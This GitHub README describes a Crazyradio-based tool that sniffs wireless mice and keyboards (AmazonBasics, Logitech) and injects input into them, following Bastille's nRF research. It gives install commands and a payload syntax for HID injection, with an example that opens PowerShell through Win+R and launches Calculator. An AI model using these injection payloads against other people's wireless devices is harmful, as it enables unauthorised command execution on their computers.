 A tool set for sniffing devices and launching attacks with Crazyradio.
Based on [BastilleResearch](https://github.com/BastilleResearch/nrf-research-firmware.git "nrf-research-firmware")'s research.

### Setting Up
Install additional modules
```sh
sudo apt-get install sdcc binutils python python-pip
sudo pip install -U pip
sudo pip install -U -I pyusb
sudo pip install -U platformio
```

### Supported Devices
| Device  | Sniff | Attack | Details |
| ----------------- | ----------------- | ----------------- | ----------------- |
| AmazonBasics | Yes(unresponsive) | Yes | Mice control and HID Injection |
| Logitech Mice | Yes | Yes | Mice control |


### How to Use
```sh
sudo python app.py
```

### How to Use Launch Attacks
```sh
# Please check attacking rules in 'devices/*.py' for details
# Further infomation will added to here once I have time
# Attacking thread sleeps for 100 milliseconds
<SLP(100)>
# Move mouse by 100*100 and press Left, Right and Middle buttons
<MOV(100,100,LMR)>
# Send keystrokes to release all keys
<RLS>
# Send 'Windows + r' key combination
<WIN+r>
# Send 'Ctrl + Alt + Delete' key combination
<CTRL+ALT+DEL>
# Open Powershell and then open Caculator form powershell with Windows computers
<RLS><WIN+r><RLS><SLP(500)><RLS>powershell<ENTER><RLS><SLP(500)><RLS>calc<ENTER><RLS>
```

License
----
GPL

